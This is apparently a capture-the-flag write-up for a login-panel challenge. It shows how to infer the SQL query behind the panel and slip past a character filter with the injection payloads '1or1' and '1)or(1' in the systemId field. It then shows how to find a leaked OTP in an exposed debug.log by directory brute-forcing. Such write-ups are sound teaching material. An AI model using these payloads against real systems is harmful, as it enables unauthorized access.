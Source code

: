 ## Reactor

There is a login panel that uses the following parameters:

    username
    password
    systemId

where the hidden `systemId` parameter is hardcoded to the value `1337`.
By trying different characters we see that the following characters are prohibited:
`'`, ` `, `\t`, `-`, `;`, `/`, `*`.

Let's try to infer the sql query behind the login page. It might look like one of the following:

    SELECT id FROM users WHERE username = 'xxx' AND password = 'yyy' AND system_id = {system_id}
    SELECT id FROM users WHERE (username = 'xxx') AND (password = 'yyy') AND (system_id = {system_id})
    SELECT id FROM users WHERE (username = 'xxx') AND (password = 'yyy') AND (system_id is null or system_id = {system_id})

The `systemId` is the most promising parameter, since there's a high chance that it's numeric on the database, and for this reason the `'` character might not be necessary for a successful injection. The other two parameters might be used as well with more advanced attacks (such as by putting a`\` character in front of the closing `'` and by using `"` to poison the query), but let's see if a simpler way is possible.

Let's suppose the query looks like the first one we inferred. The following payload would work for the `systemId` parameter:

    1or1

because the query would then look like this:

    SELECT id FROM users WHERE username = 'xxx' AND password = 'yyy' AND system_id = 1or1

which returns all the users and allows for a successful login. This unfortunately does not work.

Let's see if the query looks like one of the other two we inferred. In that case the following payload would work:

    1)or(1

which would make the query look like one of the following two:

    SELECT id FROM users WHERE (username = 'xxx') AND (password = 'yyy') AND (system_id = 1)or(1)
    SELECT id FROM users WHERE (username = 'xxx') AND (password = 'yyy') AND (system_id is null or system_id = 1)or(1)

and both would return all the users in the table and allow for a successful login. This time it works.

The control panel requires an otp to be inserted by the user and we need to find its value.

We can now dirbust a little: we will find that a `logs` folder exists inside `/control-panel`, which contains a `debug.log` file. We can use that log file to see the otp sent to the user: with that information we can now start the activation sequence.